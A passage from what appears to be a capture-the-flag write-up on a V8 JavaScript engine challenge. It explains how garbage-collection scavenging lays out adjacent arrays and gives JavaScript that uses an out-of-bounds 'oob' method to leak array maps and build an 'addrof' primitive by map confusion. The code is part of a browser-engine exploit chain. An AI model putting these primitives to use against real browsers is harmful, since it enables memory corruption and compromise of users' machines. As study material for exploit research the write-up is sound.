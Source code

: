 Finally, minor GC will occur if the nursery runs out of memory.
### Implement addrof & fakeobj

We can make use of how scavenger work like this:
```js
function gc() {
  for (var i = 0; i < 0x10000; ++i)
    var a = new ArrayBuffer();
}

gc();
var float_arr = [1.1];
gc();
var obj_arr = [{}];
gc();
```

 `gc()` function is used to trigger minor GC, and it allocates enough memory to trigger minor gc (at least) twice, so all survived objects are moved will be moved to Old space after `gc()`.

Use the first `gc()` to clean up new space. Then allocate a float array and call the second `gc()`. There are only 2 objects are moved during this scavanging: float array struct and its element. Finally allocate object array and call the last `gc()`, the object array struct are moved first and are moved to just under float array's element.

![](https://i.imgur.com/xAhAsvh.png)

You can debug to see that object array's struct (yellow) are moved bellow float array's element (orange)
![](https://i.imgur.com/kieuOKV.png)

At this point we can leak object array map and implement `addrof`

```js
var float_arr0 = [1.1];
var float_arr_map = ftoi(float_arr0.oob()) & 0xffffffffn;
print("[+] float_arr_map @ " + hex(float_arr_map));
gc();
var float_arr = [1.1];
gc();
var obj_arr = [{}];
gc();
var obj_arr_map = ftoi(float_arr.oob()) & 0xffffffffn;
print("[+] obj_arr_map @ " + hex(obj_arr_map));


function addrof(obj) {
  obj_arr[0] = obj;
  float_arr.oob(itof(float_arr_map));
  let val = ftoi(obj_arr[0]) & 0xffffffffn
  // restore map
  float_arr.oob(itof(obj_arr_map));
  return val;
}

let test = 'cc';
print("[+] test @ " + hex(addrof(test)));
%DebugPrint(test);
```

